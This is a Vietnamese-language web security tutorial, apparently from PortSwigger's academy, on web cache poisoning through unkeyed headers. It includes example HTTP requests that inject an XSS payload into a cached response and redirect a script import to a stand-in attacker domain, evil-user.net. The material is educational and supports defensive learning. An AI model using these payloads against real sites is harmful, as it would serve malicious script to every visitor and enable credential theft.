 # Exploiting cache design flaws

Trong phần này, chúng ta sẽ xem xét kỹ hơn cách các lỗ hổng đầu độc bộ nhớ đệm web có thể phát sinh do các lỗi chung trong thiết kế bộ nhớ đệm. Chúng tôi cũng sẽ trình bày cách khai thác những lỗi này.

Tóm lại, các trang web dễ bị đầu độc bộ nhớ đệm web nếu chúng xử lý dữ liệu đầu vào không có khóa theo cách không an toàn và cho phép lưu trữ các phản hồi HTTP tiếp theo. Lỗ hổng này có thể được sử dụng làm phương thức phân phối cho nhiều cuộc tấn công khác nhau.

# Using web cache poisoning to deliver an XSS attack

Có lẽ lỗ hổng đầu độc bộ nhớ đệm web đơn giản nhất để khai thác là khi dữ liệu đầu vào không có khóa được phản ánh trong phản hồi có thể lưu vào bộ nhớ đệm mà không được khử trùng đúng cách.

Ví dụ, hãy xem xét yêu cầu và phản hồi sau:

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

Tại đây, giá trị của tiêu đề X-Forwarded-Host được sử dụng để tạo động URL hình ảnh Open Graph, sau đó được phản ánh trong phản hồi. Quan trọng đối với việc đầu độc bộ nhớ đệm web, tiêu đề X-Forwarded-Host thường không được khóa. Trong ví dụ này, bộ nhớ đệm có khả năng bị nhiễm độc bằng phản hồi chứa tải trọng XSS đơn giản:

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

Nếu phản hồi này được lưu trong bộ nhớ đệm, tất cả người dùng đã truy cập /en?region=uk sẽ được phục vụ tải trọng XSS này. Ví dụ này chỉ khiến cảnh báo xuất hiện trên trình duyệt của nạn nhân, nhưng một cuộc tấn công thực sự có khả năng đánh cắp mật khẩu và chiếm đoạt tài khoản người dùng.

# Using web cache poisoning to exploit unsafe handling of resource imports

Một số trang web sử dụng tiêu đề không có khóa để tạo URL động nhằm nhập tài nguyên, chẳng hạn như tệp JavaScript được lưu trữ bên ngoài. Trong trường hợp này, nếu kẻ tấn công thay đổi giá trị của tiêu đề thích hợp thành tên miền mà chúng kiểm soát, chúng có khả năng thao túng URL để trỏ đến tệp JavaScript độc hại của chúng.

Nếu phản hồi chứa URL độc hại này được lưu vào bộ nhớ đệm, tệp JavaScript của kẻ tấn công sẽ được nhập và thực thi trong phiên trình duyệt của bất kỳ người dùng nào có yêu cầu có khóa bộ nhớ đệm trùng khớp.

```http
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```

--- 

## Ví dụ: Web cache poisoning with an unkeyed header

https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header




























